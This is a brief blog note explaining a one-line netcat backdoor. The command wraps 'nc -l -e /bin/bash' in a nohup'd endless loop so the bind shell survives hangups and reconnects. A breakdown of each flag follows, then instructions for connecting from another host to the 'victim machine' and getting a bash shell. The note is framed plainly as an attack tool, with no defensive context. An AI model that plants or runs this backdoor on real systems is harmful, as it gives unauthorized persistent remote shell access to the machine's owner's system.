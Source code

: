 Title: Simple Backdoor by using NetCat  
Date: 2014-07-06 11:03  
Author: fkz  
Category: Note  
Tags: NetCat, nc, Backdoor, Security  
Slug: simple-backdoor-by-using-netcat  
Modified: 2015-10-27 12:13  
  
  
## The one line script  
```sh  
$ nohup bash -c 'while true; do nc -l -e /bin/bash -p ${port}; done' &  
```  
  
  
## How this works  
  
+ `nohup` makes this backdoor immune to SIGHUP  
+ `bash -c ${string}` will run the `${string}` as command  
+ `nc -l` let nc keep listening on the port  
+ `nc -e ${sth}` means excute `${sth}` after connected  
+ `nc -p` to choose a port for nc to listen  
+ `${port}` is the backdoor port set on the victim machine.  
    + You can change it to a port number whatever you like.  
+ use shell scripting `while` for keeping listening  
  
  
## How to use  
  
After run the command above on the victim machine, you can just type  
  
```sh  
$ nc ${victim_ip} ${port}  
```  
  
to connect to the victim machine and get a bash shell as the same uid which ran the command.  
